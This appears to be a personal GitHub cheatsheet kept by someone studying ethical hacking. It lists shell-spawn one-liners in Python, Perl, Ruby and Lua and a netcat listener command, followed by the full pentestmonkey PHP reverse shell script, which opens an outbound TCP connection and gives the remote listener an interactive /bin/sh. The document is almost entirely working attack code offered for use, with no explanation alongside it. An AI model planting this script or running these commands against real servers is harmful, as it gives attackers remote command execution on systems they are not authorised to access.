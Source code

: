 # MyHackingCheatsheet
while I am studing ethical hacking I will add usefull commands and scripts
<h4>shell spawn</h4>
<ul>
    <li>python3 -c 'import pty; pty.spawn("/bin/bash")'</li>
    <li>echo os.system('/bin/bash')</li>
    <li>/bin/bash -i</li>
    <li>perl —e 'exec "/bin/bash";'</li>
    <li>perl: exec "/bin/bash";</li>
    <li>ruby: exec "/bin/bash"</li>
    <li>lua: os.execute('/bin/bash')</li>
</ul>

<h4>php reverse shell  script </h4>
<p>nc -lvnp 1234</p>
<p><?php
    // php-reverse-shell - A Reverse Shell implementation in PHP
    // Copyright (C) 2007 pentestmonkey@pentestmonkey.net
    //
    // This tool may be used for legal purposes only.  Users take full responsibility
    // for any actions performed using this tool.  The author accepts no liability
    // for damage caused by this tool.  If these terms are not acceptable to you, then
    // do not use this tool.
    //
    // In all other respects the GPL version 2 applies:
    //
    // This program is free software; you can redistribute it and/or modify
    // it under the terms of the GNU General Public License version 2 as
    // published by the Free Software Foundation.
    //
    // This program is distributed in the hope that it will be useful,
    // but WITHOUT ANY WARRANTY; without even the implied warranty of
    // MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    // GNU General Public License for more details.
    //
    // You should have received a copy of the GNU General Public License along
    // with this program; if not, write to the Free Software Foundation, Inc.,
    // 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
    //
    // This tool may be used for legal purposes only.  Users take full responsibility
    // for any actions performed using this tool.  If these terms are not acceptable to
    // you, then do not use this tool.
    //
    // You are encouraged to send comments, improvements or suggestions to
    // me at pentestmonkey@pentestmonkey.net
    //
    // Description
    // -----------
    // This script will make an outbound TCP connection to a hardcoded IP and port.
    // The recipient will be given a shell running as the current user (apache normally).
    //
    // Limitations
    // -----------
    // proc_open and stream_set_blocking require PHP version 4.3+, or 5+
    // Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
    // Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
    //
    // Usage
    // -----
    // See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
    
    set_time_limit (0);
    $VERSION = "1.0";
    $ip = '127.0.0.1';  // CHANGE THIS
    $port = 1234;       // CHANGE THIS
    $chunk_size = 1400;
    $write_a = null;
    $error_a = null;
    $shell = 'uname -a; w; id; /bin/sh -i';
    $daemon = 0;
    $debug = 0;
    
    //
    // Daemonise ourself if possible to avoid zombies later
    //
    
    // pcntl_fork is hardly ever available, but will allow us to daemonise
    // our php process and avoid zombies.  Worth a try...
    if (function_exists('pcntl_fork')) {
        // Fork and have the parent process exit
        $pid = pcntl_fork();
        
        if ($pid == -1) {
            printit("ERROR: Can't fork");
            exit(1);
        }
        
        if ($pid) {
            exit(0);  // Parent exits
        }
    
        // Make the current process a session leader
        // Will only succeed if we forked
        if (posix_setsid() == -1) {
            printit("Error: Can't setsid()");
            exit(1);
        }
    
        $daemon = 1;
    } else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
    }
    
    // Change to a safe directory
    chdir("/");
    
    // Remove any umask we inherited
    umask(0);
    
    //
    // Do the reverse shell...
    //
    
    // Open reverse connection
    $sock = fsockopen($ip, $port, $errno, $errstr, 30);
    if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
    }
    
    // Spawn shell process
    $descriptorspec = array(
       0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
       1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
       2 => array("pipe", "w")   // stderr is a pipe that the child will write to
    );
    
    $process = proc_open($shell, $descriptorspec, $pipes);
    
    if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
    }
    
    // Set everything to non-blocking
    // Reason: Occsionally reads will block, even though stream_select tells us they won't
    stream_set_blocking($pipes[0], 0);
    stream_set_blocking($pipes[1], 0);
    stream_set_blocking($pipes[2], 0);
    stream_set_blocking($sock, 0);
    
    printit("Successfully opened reverse shell to $ip:$port");
    
    while (1) {
        // Check for end of TCP connection
        if (feof($sock)) {
            printit("ERROR: Shell connection terminated");
            break;
        }
    
        // Check for end of STDOUT
        if (feof($pipes[1])) {
            printit("ERROR: Shell process terminated");
            break;
        }
    
        // Wait until a command is end down $sock, or some
        // command output is available on STDOUT or STDERR
        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
    
        // If we can read from the TCP socket, send
        // data to process's STDIN
        if (in_array($sock, $read_a)) {
            if ($debug) printit("SOCK READ");
            $input = fread($sock, $chunk_size);
            if ($debug) printit("SOCK: $input");
            fwrite($pipes[0], $input);
        }
    
        // If we can read from the process's STDOUT
        // send data down tcp connection
        if (in_array($pipes[1], $read_a)) {
            if ($debug) printit("STDOUT READ");
            $input = fread($pipes[1], $chunk_size);
            if ($debug) printit("STDOUT: $input");
            fwrite($sock, $input);
        }
    
        // If we can read from the process's STDERR
        // send data down tcp connection
        if (in_array($pipes[2], $read_a)) {
            if ($debug) printit("STDERR READ");
            $input = fread($pipes[2], $chunk_size);
            if ($debug) printit("STDERR: $input");
            fwrite($sock, $input);
        }
    }
    
    fclose($sock);
    fclose($pipes[0]);
    fclose($pipes[1]);
    fclose($pipes[2]);
    proc_close($process);
    
    // Like print, but does nothing if we've daemonised ourself
    // (I can't figure out how to redirect STDOUT like a proper daemon)
    function printit ($string) {
        if (!$daemon) {
            print "$string\n";
        }
    }
    
    ?> </p>
